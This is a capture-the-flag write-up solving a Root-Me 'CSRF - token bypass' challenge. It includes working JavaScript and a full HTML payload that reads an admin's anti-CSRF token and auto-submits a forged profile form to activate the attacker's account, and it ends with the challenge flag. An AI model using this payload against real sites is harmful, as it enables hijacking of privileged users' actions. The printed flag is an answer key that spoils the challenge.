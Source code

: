 # CSRF - token bypass

**Point**: 45 Points

## Solution:

This is a  CSRF vulnerability with adding 1 secure layer - **CSRF token** . Get in the page, we see a form: 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159601753-f08b4ef7-75f1-43b3-8b28-3b0c8e0a5aea.png" ></p>

Before "Login", we have to register. Move to "Register" and create an account. For example, in my case, username is `khangtictoc` and password is `123`

Log in this account. Move to "Private" 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159602721-0d988354-cb0f-43bd-ba64-49e8a20feea5.png" ></p>


This section is for activated account. So we could reach that via sending a malicious HTML content to "Contact". 

But how do we achieve this action ? In "Profile", there's a **disable** checkbox and a button "Submit". 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159603119-dc64359d-bb4e-4fb7-bfbd-0114c02b2d94.png" ></p>

Enable the checkbox, in "Dev Tool" (F12) replace `disabled=""` with `checked`. Then click "Submit" button.

```html
<input type="checkbox" name="status" checked>
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159631629-ce07c8ba-5e3f-4b6c-bf37-ed9a7a6b287d.png" ></p>

Only **admin** can do this action. But we could make **administrator** do the activation for us. Move to "Network" section, examine **Request Headers**:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159632033-7ee73905-fbe4-4313-9815-5ab0901ca2d8.png" ></p>

With **Origin** and **Referer** headers, this can prevent CSRF if server checks it, but this chall does not use. But there's is another things we should care for.

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159632330-9b687a4d-36c1-45d5-8399-97d8929bb325.png" ></p>

The form has a token for anti-CSRF. You may be aware that this token is changed for each time we submit or reload a page again. So we can't use old attack because beside **Cookie**, there's one-time-used token that we didn't know from **admin**.  

Our idea is we'll collect the token as soon as our script is loaded in **admin side**; and then submit it with the form. We just have to write some more **Javascript** code do this task. Constructing an auto-submit form. Copy the given form:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159633736-f00ef5dd-888d-4a4e-ab05-4d2796594167.png" ></p>

Changing `checkbox` as we've done previous. Create payload: 
- Make sure value in **input/type=text** is our **username** 
- Set `action` to "http://challenge01.root-me.org/web-client/ch23/index.php?action=profile" for fixed path, we can "POST" data no matters the place(domain) we are
- Add **javascript code** for auto-submit.
- Put the payload in full **HTML format**. The payload 's contained in `<html></html>` and in `<body></body>`

Let's write a 'gadget' code to receive **admin's token.** View the request in "Network" tab. Our request use `GET` method. There're many measures we can create a `GET` request. [Popular way creating http request in JS!](https://www.freecodecamp.org/news/here-is-the-most-popular-ways-to-make-an-http-request-in-javascript-954ce8c95aaa/)

The most convenient way is using AJAX. ( FYI: AJAX supports many **http verbs** like `GET` `PUT` `POST` , ...)

```javascript

// You can run line-by-line to debug and see the result in "Console" tab
// Create a "GET" Request  
var getRequest = new XMLHttpRequest();

// Little tricky here ! We should set 3rd parameter to "false" value. It means we turn off "asynchronous". 
// If not, GET request will run seperately and "tokenAdmin" is created before the token's data from the form return; therefore, "tokenAdmin" returns "null"
getRequest.open("GET", "http://challenge01.root-me.org/web-client/ch23/index.php?action=profile", false);

// Send it to server.
getRequest.send();

// Use regex to get the token from admin; Our token is a hash having a fixed value of 32 characters (256 bits)
var tokenAdmin = getRequest.response.match(/[qwertyuiopasdfghjklzxcvbnm1234567890]{32}/)[0];

// Change the value of token in the form to admin'token for submitting
document.getElementById('token').value = tokenAdmin;
// Auto submit the form 
document.getElementById('profile').submit();

```

Combine with the original form we extracted. Our final payload:

Your email: khangtictoc@gmail.com (arbitrary string)

Comment:

```html
<html>
    <body>
        <form id="profile" action="http://challenge01.root-me.org/web-client/ch23/index.php?action=profile" method="post" enctype="multipart/form-data">
            <div>
            <label>Username:</label>
            <input id="username" type="text" name="username" value="khangtictoc">
            </div>
            <br>		
            <div>
            <label>Status:</label>
            <input id="status" type="checkbox" name="status" checked>
            </div>
            <br>
            <input id="token" type="hidden" name="token" value="">
            <button type="submit">Submit</button>
        </form>
        <script>
            var getRequest = new XMLHttpRequest();
            getRequest.open("GET", "http://challenge01.root-me.org/web-client/ch23/index.php?action=profile", false);
            getRequest.send();

            var tokenAdmin = getRequest.response.match(/[qwertyuiopasdfghjklzxcvbnm1234567890]{32}/)[0];

            document.getElementById('token').value = tokenAdmin;
            document.getElementById('profile').submit();
        </script>
    </body>
</html>
```

Wait for a while for autbot's working. Direct to "Private" section:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159635785-ca8689b6-8d08-4562-90e8-233a98ed7efe.png" ></p>

**NOTE: The flag says that we should use XSS vulnerability to bypass but i don't know how. So, screw it :))**

Flag: **Byp4ss_CSRF_T0k3n-w1th-XSS**
